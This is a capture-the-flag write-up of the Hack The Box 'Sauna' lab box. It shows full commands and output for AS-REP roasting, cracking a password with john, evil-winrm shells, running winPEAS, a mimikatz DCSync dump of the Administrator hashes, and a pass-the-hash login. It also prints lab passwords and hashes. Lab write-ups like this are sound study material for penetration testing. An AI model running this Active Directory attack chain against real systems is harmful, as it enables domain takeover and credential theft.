

---
search:
  exclude: true
---
# Sauna Writeup

## Introduction :

Sauna is an easy Windows Box released back in Febuary 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/47 ] [~/HTB/Sauna]
    → nmap -vvv -p- 10.10.10.175 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 445/tcp on 10.10.10.175
    Discovered open port 135/tcp on 10.10.10.175
    Discovered open port 139/tcp on 10.10.10.175
    Discovered open port 53/tcp on 10.10.10.175
    Discovered open port 636/tcp on 10.10.10.175
    Discovered open port 5985/tcp on 10.10.10.175
    Discovered open port 88/tcp on 10.10.10.175
    Discovered open port 49667/tcp on 10.10.10.175
    Discovered open port 49673/tcp on 10.10.10.175
    Discovered open port 80/tcp on 10.10.10.175
    Discovered open port 3268/tcp on 10.10.10.175
    Discovered open port 55898/tcp on 10.10.10.175
    Discovered open port 464/tcp on 10.10.10.175
    Discovered open port 49675/tcp on 10.10.10.175
    Discovered open port 49686/tcp on 10.10.10.175
    Discovered open port 389/tcp on 10.10.10.175
    Discovered open port 593/tcp on 10.10.10.175
    Discovered open port 9389/tcp on 10.10.10.175
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → nmap -sCV -p 53,135,139,389,445,636,3268,5985,464,593 10.10.10.175
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-08 09:39 CEST
    Nmap scan report for 10.10.10.175
    Host is up (0.029s latency).
    
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: 7h07m50s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-06-08T14:47:18
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 48.80 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

It's basically a bank website, and going to the **About Us** page we see a list of potential usernames:

So let's save the usernames in a textfile:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → vim users.txt
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → cat users.txt
    FergusSmith
    ShaunCoins
    BowieTaylor
    SophieDriver
    HugoBear
    StevenKerb
    
    fsmith
    skerb
    hbear
    sdriver
    btaylor
    scoins
    
    fergus.smith
    shaun.coins
    bowie.taylor
    hugo.bear
    steven.kerb
    sophie.driver
    
    fergus_smith
    shaun_coins
    bowie_taylor
    hugo_bear
    steven_kerb
    sophie_driver
    
    

Now our nmap scan picked up the port 389 so let's enumerate it further:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → nmap -n -sV --script "ldap*" -p 389 10.10.10.175
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-08 09:41 CEST
    Nmap scan report for 10.10.10.175
    Host is up (0.030s latency).
    
    PORT    STATE SERVICE VERSION
    389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
    | ldap-brute:
    |   root:empty> => Valid credentials
    |   admin:empty> => Valid credentials
    |   administrator:empty> => Valid credentials
    |   webadmin:empty> => Valid credentials
    |   sysadmin:empty> => Valid credentials
    |   netadmin:empty> => Valid credentials
    |   guest:empty> => Valid credentials
    |   user:empty> => Valid credentials
    |   web:empty> => Valid credentials
    |_  test:empty> => Valid credentials
    
    [...]
    
    |         msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    |         msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
    |         msDS-NcType: 0
    |         msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
    |         dc: EGOTISTICAL-BANK
    |     dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
    |     dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
    |_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
    Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    

Just like we saw earlier, we see that the DC name is **EGOTISTICAL-BANK.LOCAL** so let's add it to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.175 egotistical-bank.local' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 egotistical-bank.local
    PING egotistical-bank.local (10.10.10.175) 56(84) bytes of data.
    64 bytes from egotistical-bank.local (10.10.10.175): icmp_seq=1 ttl=127 time=27.7 ms
    
    --- egotistical-bank.local ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 27.650/27.650/27.650/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    →
    
    

Now let's use GetNPusers.py to get the TGT (Ticket Granting Ticket) if the account doesn't need Kerberos pre-authentication, just like we did back on the [Forest](38.md) box. 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → locate GetNPUsers.py
    /home/nothing/HTB/Forest/GetNPUsers.py
    /home/nothing/HTB/Forest/impacket/build/scripts-3.9/GetNPUsers.py
    /home/nothing/HTB/Forest/impacket/examples/GetNPUsers.py
    /usr/local/bin/GetNPUsers.py
    /usr/local/lib/python3.9/dist-packages/impacket-0.9.23.dev1+20210519.170900.2f5c2476-py3.9.egg/EGG-INFO/scripts/GetNPUsers.py
    /usr/share/doc/python3-impacket/examples/GetNPUsers.py
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → **python3** /home/nothing/HTB/Forest/impacket/build/scripts-3.9/**GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -usersfile users.txt -format john -outputfile output.txt**
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] invalid principal syntax
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] invalid principal syntax
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] invalid principal syntax
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → cat output.txt
    $krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL:e5fd4e219aaaeaaee831332f9757141c$4b7dc2211c0031d41c8667e233453527d9b0dd39176a4fcc15bbb9d7535e360a47f4c7f30e46e1afbf6ce3d27fca4f9c565dd47aa5896389bcd9a70e74ceb7ead43f5bc37be009d480bd404547ee634a22f161d599913a834ead66f05421ae2c5f550fb3334490cafebd10186b90a5343f5240cf901a033f0b3126c45e4e27f0f4514bf5367fc281e5bc826921b136ed7b995f9c1144f9a62f8d871806e3bbb07a3789bcedfa928409ac543b4ab30f024730b1d9ca818ceb99e6dfd064544eec1a530075004840b580afcfa3787a7c1c9012957d7c0b5ae53af8e845173509688166cbe140017a3b2076d583b1d496e42ef78b9e305edf5b43802c653ef6ab4d
    
    

Now that we got fsmith's hashed password let's crack it with john:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → john output.txt -w=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    **Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL)**
    1g 0:00:00:09 DONE (2021-06-08 09:54) 0.1102g/s 1161Kp/s 1161Kc/s 1161KC/s Thrall..Thehunter22
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    

And we got fsmith's password! Now let's use evil-winrm to get onto the box:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → evil-winrm -u fsmith -p Thestrokes23 -i egotistical-bank.local
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\FSmith\Documents> cd ..
    *Evil-WinRM* PS C:\Users\FSmith> ls
    
    
        Directory: C:\Users\FSmith
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        1/23/2020  10:01 AM                Desktop
    d-r---        1/24/2020  10:40 AM                Documents
    d-r---        9/15/2018  12:19 AM                Downloads
    d-r---        9/15/2018  12:19 AM                Favorites
    d-r---        9/15/2018  12:19 AM                Links
    d-r---        9/15/2018  12:19 AM                Music
    d-r---        9/15/2018  12:19 AM                Pictures
    d-----        9/15/2018  12:19 AM                Saved Games
    d-r---        9/15/2018  12:19 AM                Videos
    
    
    *Evil-WinRM* PS C:\Users\FSmith> cd Desktop
    *Evil-WinRM* PS C:\Users\FSmith\Desktop> ls
    
    
        Directory: C:\Users\FSmith\Desktop
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        1/23/2020  10:03 AM             34 user.txt
    
    
    *Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
    1bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc let's use Invoke-winPEAS.ps1 from powershell empire:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Sauna]
    → locate winPEAS.ps1
    /home/nothing/HTB/Buff/Invoke-winPEAS.ps1
    /home/nothing/HTB/Omni/SirepRAT/Invoke-winPEAS.ps1
    /usr/share/powershell-empire/data/module_source/privesc/Invoke-winPEAS.ps1
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Sauna]
    → cp /usr/share/powershell-empire/data/module_source/privesc/Invoke-winPEAS.ps1 .
    
    

let's upload it to a temporary directory we create:
    
    
    *Evil-WinRM* PS C:\Users\FSmith\Desktop> mkdir C:\Temp
    
    
        Directory: C:\
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----         6/8/2021   8:06 AM                Temp
    
    
    *Evil-WinRM* PS C:\Users\FSmith\Desktop> cd C:\Temp
    *Evil-WinRM* PS C:\Temp>
    
    

Then we can use evil-winrm's built in upload function:
    
    
    *Evil-WinRM* PS C:\Temp> upload Invoke-winPEAS.ps1
    Info: Uploading Invoke-winPEAS.ps1 to C:\Temp\Invoke-winPEAS.ps1
    
    
    Data: 310740 bytes of 310740 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\Temp> ls
    
    
        Directory: C:\Temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----         6/8/2021   8:07 AM         233056 Invoke-winPEAS.ps1
    
    

Then just import the .ps1 file as a module then run the command:
    
    
    *Evil-WinRM* PS C:\Temp> import-module ./Invoke-winPEAS.ps1
    *Evil-WinRM* PS C:\Temp> Invoke-winPEAS
    
    

` 

Scrolling through the winPEAS output we see the following:

So now we have svc_loanmgr's password, so let's spawn another evil-winrm session with his credentials:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → evil-winrm -u svc_loanmgr -p Moneymakestheworldgoround! -i egotistical-bank.local
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
    egotisticalbank\svc_loanmgr
    
    

As expected we managed to spawn a session as svc_loanmgr, now in order to privesc we're going to upload mimikatz
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/Sauna]
    → locate mimikatz.exe
    /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
    /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
    
    
    [term2]
    
    *Evil-WinRM* PS C:\Users\svc_loanmgr> cd C:\Temp
    *Evil-WinRM* PS C:\Temp> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
    Info: Uploading /usr/share/windows-resources/mimikatz/x64/mimikatz.exe to C:\Temp\mimikatz.exe
    
    
    Data: 1773544 bytes of 1773544 bytes copied
    
    Info: Upload successful!
    
    

Now let's run it:
    
    
    *Evil-WinRM* PS C:\Temp> .\mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
    
      .#####.   mimikatz 2.2.0 (x64) #19041 May 31 2021 00:08:47
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
    
    mimikatz(commandline) # lsadump::dcsync /user:Administrator
    [DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
    [DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
    [DC] 'Administrator' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)
    
    Object RDN           : Administrator
    
    ** SAM ACCOUNT **
    
    SAM Username         : Administrator
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   :
    Password last change : 1/24/2020 10:14:15 AM
    Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
    Object Relative ID   : 500
    
    Credentials:
    **Hash NTLM: d9485863c1e9e05851aa40cbb4ab9dff**
        ntlm- 0: d9485863c1e9e05851aa40cbb4ab9dff
        ntlm- 1: 7facdc498ed1680c4fd1448319a8c04f
        lm  - 0: ee8c50e6bc332970a8e8a632488f5211
    
    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : caab2b641b39e342e0bdfcd150b1683e
    
    * Primary:Kerberos-Newer-Keys *
        Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
          aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
          des_cbc_md5       (4096) : 19d5f15d689b1ce5
        OldCredentials
          aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
          aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
          des_cbc_md5       (4096) : d9379d13f7c15d1c
    
    * Primary:Kerberos *
        Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
        Credentials
          des_cbc_md5       : 19d5f15d689b1ce5
        OldCredentials
          des_cbc_md5       : d9379d13f7c15d1c
    
    * Packages *
        NTLM-Strong-NTOWF
    
    * Primary:WDigest *
        01  3fbea1ff422da035f1dc9b0ce45e84ea
        02  708091daa9db25abbd1d94246e4257e2
        03  417f2e40d5be8d436af749ed9fddb0b0
        04  3fbea1ff422da035f1dc9b0ce45e84ea
        05  50cb7cfb64edf83218804d934e30d431
        06  781dbcf7b8f9079382a1948f26f561ee
        07  4052111530264023a7d445957f5146e6
        08  8f4bffc5d94cc294272cd0c836e15c47
        09  0c81bc892ea87f7dd0f4a3a05b51f158
        10  f8c10a5bd37ea2568976d47ef12e55b9
        11  8f4bffc5d94cc294272cd0c836e15c47
        12  023b04503e3eef421de2fcaf8ba1297d
        13  613839caf0cf709da25991e2e5cb63cf
        14  16974c015c9905fb27e55a52dc14dfb0
        15  3c8af7ccd5e9bd131849990d6f18954b
        16  2b26fb63dcbf03fe68b67cdd2c72b6e6
        17  6eeda5f64e4adef4c299717eafbd2850
        18  3b32ec94978feeac76ba92b312114e2c
        19  b25058bc1ebfcac10605d39f65bff67f
        20  89e75cc6957728117eb1192e739e5235
        21  7e6d891c956f186006f07f15719a8a4e
        22  a2cada693715ecc5725a235d3439e6a2
        23  79e1db34d98ccd050b493138a3591683
        24  1f29ace4f232ebce1a60a48a45593205
        25  9233c8df5a28ee96900cc8b59a731923
        26  08c02557056f293aab47eccf1186c100
        27  695caa49e68da1ae78c1523b3442e230
        28  57d7b68bd2f06eae3ba10ca342e62a78
        29  3f14bb208435674e6a1cb8a957478c18
    
    
    mimikatz(commandline) # exit
    Bye!
    

And we got the NTLM Hash! Let's use it to login as the Administrator user:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/Sauna]
    → evil-winrm -u Administrator -H "d9485863c1e9e05851aa40cbb4ab9dff" -i egotistical-bank.local
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    egotisticalbank\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    f3XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get an Administrator evil-winrm session and got the root flag.

## **Conclusion**

Here we can see the progress graph :

